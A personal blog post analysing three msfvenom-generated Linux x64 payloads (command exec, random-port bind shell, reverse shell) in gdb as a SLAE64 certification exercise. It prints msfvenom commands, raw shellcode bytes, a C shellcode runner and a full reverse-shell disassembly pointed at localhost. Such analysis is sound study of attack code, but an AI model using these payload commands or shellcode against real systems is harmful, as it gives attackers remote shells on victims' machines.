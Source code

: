 title: GDB Shellcode Analysis
date: 2018-05-19
published: true 
summary: My solution to SLAE64 Exam Question 5
tags: shellcode, exploit, assembly

#GDB Shellcode Analysis

This is my solution to the fifth exam question of the SLAE64 certification. This exercise was to generate 3 shellcode samples with msfvenom, use gdb to examine the code's functionality, and document the analysis.

Ok, first I checked which payloads were available to me - x86 or x64 were both acceptable: 

	root@kali:~# msfvenom -l payloads | grep -E "linux/x(86|64)"

There were 47 available payloads. I was glad to see there were enough x64 payloads to choose exclusively those - it just made more sense to me since this course was focused on x64 shellcode. I chose the `linux/x64/exec`, `linux/x64/shell_bind_tcp_random_port`, and `linux/x64/shell_reverse_tcp` for this post.  

### Sample 1: `linux/x64/exec` shellcode
I generated the shellcode to use in this exercies with the following command:

	root@kali:~# msfvenom -p linux/x64/exec -f c cmd=whoami

This produced 46 byte shellcode - nice and short for analysis ;). I used essentially the same C shellcode runner as I did for other problems on the exam, reproduced below:

	#include<stdio.h>
	#include<string.h>

	unsigned char code[] =
	"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
	"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x07\x00"
	"\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x56\x57\x48\x89\xe6\x0f"
	"\x05";

	main()
	{
	        printf("Shellcode Length:  %d\n", (int)sizeof(code)-1);
	        int (*ret)() = (int(*)())code;
	        ret();
	}


I compiled and ran it to make sure it was working properly: 

![whoami](/static/blog/2018/SLAE64/5/exec_whoami.png)

Normally it wouldn't be a bad idea to disassemble the binary and look at the static code. However, we'll basically end up doing that in gdb, so we'll skip straight to semi-dynamic analysis.

I basically set a breakpoint just before calling the shellcode, so we can take a look at only the relevant instructions:

![gdb init](/static/blog/2018/SLAE64/5/gdb_init.png)

You can see nearly the entirety of the shellcode in that screenshot - as I said before, nice and compact :). I think its worth considering what we expect the end result of this shellcode to be - we should be calling `execve` with the following arguments:

	execve(const char *filename, char *const argv[], char *const envp[]);

In this case, `filename` should be in the `rdi` register, `argv` in the `rsi` register, and `envp` in the `rdx` register.

We see the first three instructions set `rax` to `0x3b`, or 59, and then calls the `cdq` instruction. 59 is relevant as the `execve` syscall number. It makes sense we will essentially get 59 into `rax`, prepare the arguments, and make the syscall. That `cdq` instruction extends the sign bit of the `rax` register into every bit of `rdx`. In this case, it would have effect of zero-ing out `rdx`, since we know `rax` is a positive number. I stepped through with gdb and saw this exact behavior. Next, we see the `movabs rbx,0x68732f6e69622f` instruction. What is that hex string in ascii? It's `/bin/sh` backwards, `hs/nib/`. During this class, Vivek actually goes over this method, and explains that it must be pushed backwards, as the stack grows down. We see `rbx` get pushed onto the stack, and then the `mov rdi,rsp` instruction so that `rdi` has a pointer to the '/bin/sh' string.

Next, we see a `push 0x632d` instruction and then a `mov` which has the effect of putting a pointer to the stack in `rsi`. `0x632d` is `-c` backwards, as we will need to eventually have the addresses of all the arguments `/bin/sh -c whoami` in `rsi`. This will be the `argv` argument to `execve`. We can look at the current contents of `rsi` in gdb:

![gdb rsi](/static/blog/2018/SLAE64/5/gdb_rsi.png)

Cool, we're getting there and collecting all the strings we need. Ok, next there's a weird `call` instruction that points to the middle of what looks like some gibberish instructions. We know `call` pushes the address of the next instruction onto the stack.. hmm if we print that:

![gdb nexti](/static/blog/2018/SLAE64/5/gdb_nexti.png)

Ok, now what if we look at the weird address we are calling? 

![gdb call](/static/blog/2018/SLAE64/5/gdb_call.png)

Those instructions are all that's left - we push the addresses of the needed strings on the stack, and put a pointer to that whole thing in `rsi`, then make our syscall and execute our command.

### Sample 2: `linux/x64/shell_bind_tcp_random_port` shellcode

I generated the shellcode to use for this sample with the following command:

	root@kali:~# msfvenom -p linux/x64/shell_bind_tcp_random_port -f c

We see again reasonably compact 57 byte shellcode generated.

I used gdb to step through the instructions and view the disassembly. As with before, you can essentially see all the shellcode in the following screenshot:

![gdb_init_bind](/static/blog/2018/SLAE64/5/gdb_init_bind.png)

It's easiest to dissect this program through each `syscall`. First, I observed the program make syscall `0x29` or `socket`. Next, we see syscall `0x32`, or `listen`, then syscall `0x2b`, or `accept`. After that, there's a small loop calling `0x21`, or `dup2`. Finally, we see a syscall `0x3b`, or `execve`, creating the `/bin/sh` program. In this case, the structures passed to the syscalls are a little interesting, but honestly we can pretty much get the gist of the entire program just by looking at the syscalls.

For other students of the class, this shellcode looks extremely similar to some of the bind tcp shells we experimented with. The key difference is that there is no `bind` syscall. This was interesting to me and I didn't immediately know the answer. Doing a little research (aka googling furiously) I found that if you call `listen` on a socket which hasn't been bound to a port, the OS will just assign an ephemeral port. 

After that, the code will block to accept a connection, `dup2` to direct input and output through the socket, and spawn a shell. I ran the program in gdb until the blocking `accept` call, and then attempted to identify the listening port and connect to it:

![gdb nmap](/static/blog/2018/SLAE64/5/gdb_nmap.png)

Although I have done a fair amount of socket programming, I never knew that little trick about ignoring `bind`, so I thought that was pretty cool.

### Sample 3: `linux/x64/shell_reverse_tcp` shellcode
I generated the shellcode to use for this sample with the following command:

	root@kali:~# msfvenom -p linux/x64/shell_reverse_tcp -f c LHOST=127.0.0.1 LPORT=31337

First I made sure the shellcode was working properly, by using the same C program as before and `nc`:

![rev shell](/static/blog/2018/SLAE64/5/reverse_shell.png)

Next, I ran the program in gdb and set a breakpoint at the shellcode as before. Here's a full disassembly dump of the shellcode:

	0x601040 <code>:     push   0x29
	0x601042 <code+2>:   pop    rax
	0x601043 <code+3>:   cdq    
	0x601044 <code+4>:   push   0x2
	0x601046 <code+6>:   pop    rdi
	0x601047 <code+7>:   push   0x1
	0x601049 <code+9>:   pop    rsi
	0x60104a <code+10>:  syscall 
	0x60104c <code+12>:  xchg   rdi,rax
	0x60104e <code+14>:  movabs rcx,0x100007f697a0002
	0x601058 <code+24>:  push   rcx
	0x601059 <code+25>:  mov    rsi,rsp
	0x60105c <code+28>:  push   0x10
	0x60105e <code+30>:  pop    rdx
	0x60105f <code+31>:  push   0x2a
	0x601061 <code+33>:  pop    rax
	0x601062 <code+34>:  syscall 
	0x601064 <code+36>:  push   0x3
	0x601066 <code+38>:  pop    rsi
	0x601067 <code+39>:  dec    rsi
	0x60106a <code+42>:  push   0x21
	0x60106c <code+44>:  pop    rax
	0x60106d <code+45>:  syscall 
	0x60106f <code+47>:  jne    0x601067 <code+39>
	0x601071 <code+49>:  push   0x3b
	0x601073 <code+51>:  pop    rax
	0x601074 <code+52>:  cdq    
	0x601075 <code+53>:  movabs rbx,0x68732f6e69622f
	0x60107f <code+63>:  push   rbx
	0x601080 <code+64>:  mov    rdi,rsp
	0x601083 <code+67>:  push   rdx
	0x601084 <code+68>:  push   rdi
	0x601085 <code+69>:  mov    rsi,rsp
	0x601088 <code+72>:  syscall 

I first noticed a very similar `socket` (`0x29`) syscall to what we saw in the previous bind tcp shellcode. That is familiar at this point. Next, there is a strange constant moved into `rcx`. The first part of that looks familiar to me:

![socket hex](/static/blog/2018/SLAE64/5/localhost_hex.png) 

The second part as well:

![31337 hex](/static/blog/2018/SLAE64/5/31337_hex.png) 

I then observed the value pushed onto the stack, and a pointer to it placed into `rsi`. Thinking back to the other socket assembly code I wrote as part of this course, it is clear that this is the `sockaddr` struct that we pass to the `connect` syscall, `0x2a`. I single-stepped through in gdb and sure enough, saw the connection back to my localhost `nc` listener just after I stepped over that syscall. However, at that point sending commands through the socket wouldn't do anything - the program has not spawned a shell yet.

Next I noticed a decrementing loop before the `0x21`, or `dup2` syscall. This is basically the same loop I have discussed in previous answers, and serves to redirect stdin, stdout, and stderror for our shell to the socket we have open.  
The last part of the program is again a very similar pattern to previous analyses. I recognized the `0x68732f6e69622f` value as the string `/bin/sh` backwards again. See, we can teach ourselves to read hex ;) Then, as usual, the program makes an `execve` syscall. At this point, I observed output returned on my `nc` listener.

![reverse fin](/static/blog/2018/SLAE64/5/reverse_final.png)

I enjoyed this question overall, as most of the others focused more on the ability to write shellcode, and this was a bit different in asking the student to analyze generated code. Of course, reverse engineering is easier when you know what the code does ;).  

All code referenced in this blog post is available at: <https://github.com/mrT-F/SLAE64/tree/master/5>

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification* 

*Certification at: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>*

*Student ID: SLAE64 - 1546*